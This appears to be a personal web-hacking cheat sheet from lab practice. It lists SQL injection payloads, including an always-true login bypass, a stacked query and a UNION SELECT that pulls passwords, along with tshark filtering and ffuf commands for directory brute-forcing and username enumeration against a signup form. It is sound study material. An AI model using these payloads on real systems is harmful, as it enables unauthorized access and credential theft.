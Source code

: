 ===============================================================================
# SQL
```
# In the middle of query: ||
# SELECT * FROM users WHERE password="mypassword" OR "1"="1" AND email="admin@example.com";
mypassword" OR "1"="1			# injection

# At the end of the query: ||
# SELECT name, profession FROM users WHERE name LIKE "%%";	== actual query
# SELECT name, profession FROM users WHERE name LIKE "%"; SELECT * FROM users; --%";
"; SELECT * FROM users; --		# injection

# combile two queries in one command:
Tracy Gill " UNION SELECT Profession, Password FROM users;"

```

===============================================================================
# Links
```
https://github.com/danielmiessler/SecLists		# web/wordlist (seclists)

```

===============================================================================
# Tools
```
Remmina 		# Remote Desktop client for RDP (sudo apt install remmina)

# use TShark to filter out the User-Agent strings on web hacking
tshark --Y http.request -T fields -e http.host -e http.user_agent -r analysis_file.pcap

Wannabrowser		# Scan and analyze websites


```

===============================================================================
# ffuf
```
# discover file and Directory, FUZZ will be replaced by the words
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://10.10.46.108/FUZZ

# Find the usernames that already signed up for the website using the web error "username already exists"
ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.217.234/customers/signup -mr "username already exists"
			
-w	# wordlist
-u	# URL
-X	# request method, GET, POST ...
-d	# specifies the data that we are going to send
example: -d "username=FUZZ&email=x&password=x&cpassword=x"	# we have the fields username, email, password and cpassword
-H	# is used for adding additional headers to the request, like "Content-Type: application/x-www-form-urlencoded"
-mr	# is the text on the page we are looking for to validate we've found a valid username


```